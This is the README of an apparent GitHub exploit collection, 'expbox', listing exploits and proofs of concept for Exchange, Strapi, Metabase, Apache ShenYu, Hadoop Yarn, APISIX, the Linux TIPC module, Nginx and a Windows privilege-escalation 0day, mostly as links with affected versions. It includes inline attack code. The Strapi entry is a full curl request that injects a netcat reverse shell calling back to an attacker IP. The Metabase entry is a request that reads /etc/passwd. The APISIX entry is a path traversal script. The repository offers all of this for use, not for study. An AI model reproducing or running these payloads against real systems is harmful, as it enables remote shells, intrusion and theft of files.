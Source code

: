 ![[object Object]](https://socialify.git.ci/0x0021h/expbox/image?description=1&name=1&stargazers=1&theme=Light)

### Introduction
expbox is an exploit code collection repository


### List
**Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution**
```
curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzE5NzEwLCJleHAiOjE2MzI5MTE3MTB9.AfJr81dyxnmzlutCKArmf0kBgFCcDDhsk91IYNDpTFM' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.42 4444 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'
```

**[CVE-2021-41349 Exchange XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021-41349-poc.py)**
```
<= Exchange 2013 update 23
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```
**[CVE-2021–3945 Django-helpdesk stored XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021%E2%80%933945-poc.txt)**
```
<= 0.3.0
```

**[CVE-2021-37580 Apache ShenYu 2.3.0/2.4.0 authentication bypass](https://github.com/0x0021h/expbox/blob/main/cve-2021-37580-poc.py)**
```
Ref: https://github.com/fengwenhua/CVE-2021-37580
```


**[Hadoop Yarn RPC RCE](https://github.com/0x0021h/expbox/blob/main/Hadoop%20Yarn%20RPC%20RCE.md)**
```
Ref: https://github.com/cckuailong/YarnRpcRCE
```

**[CVE-2021-41277 MetaBase Arbitrary File Read](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41277.yaml)**
```
MetaBase < 0.40.5
1.0.0 <= MetaBase < 1.40.5

FOFA:

app="Metabase"

PoC:

GET /api/geojson?url=file:/etc/passwd HTTP/1.1
```

**[CVE-2021-42321 Exchange Post-Auth RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-42321.py)**
```
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```

**[Windows 0day - InstallerFileTakeOver](https://github.com/0x0021h/expbox/blob/main/InstallerFileTakeOver.exe)**
![image](https://user-images.githubusercontent.com/92664048/142796024-a46e8a46-90d1-42ed-8cf2-42127fb65da3.png)
```
Ref:https://github.com/klinix5/InstallerFileTakeOver
```

**CVE-2021-43557 Apache APISIX: Path traversal in request_uri variable**
```
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

**[CVE-2021-43267 Linux Kernel TIPC RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-43267.c)**
```
5.10-rc1 < Linux kernel < 5.15
```

Reference: https://haxx.in/posts/pwning-tipc/

**[Nginx 0.7.0 to 1.17.9 Host injection](https://github.com/0x0021h/expbox/blob/main/nginx%20%200.7.0%20to%201.17.9%20Host%20injection.md)**
```
Ref: https://twitter.com/infosec_90/status/1464337963240861702
```

### Note

All content comes from the Internet, if there is a copyright problem, please contact me to delete.
